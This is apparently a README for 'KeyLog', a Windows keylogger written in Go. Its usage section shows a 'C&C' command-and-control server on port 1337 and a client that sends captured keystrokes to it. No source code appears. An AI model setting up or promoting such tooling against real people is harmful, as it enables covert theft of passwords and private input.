 
# KeyLog
<img src="https://i.ibb.co/0jX2hWQ/LOGO-DARK-2.png" alt="drawing" width="444"/>

![Go](https://img.shields.io/badge/go-%2300ADD8.svg?style=for-the-badge&logo=go&logoColor=white) &nbsp;
![Windows](https://img.shields.io/badge/Windows-0078D6?style=for-the-badge&logo=windows&logoColor=white) &nbsp;
## 🔍 Usage
```
SERVER: ./C&C -port 1337 -token 000N000N000... -path ./Results
CLIENT: ./KeyLog -url 127.0.0.1:1337 -keys 1000 -time 10
```
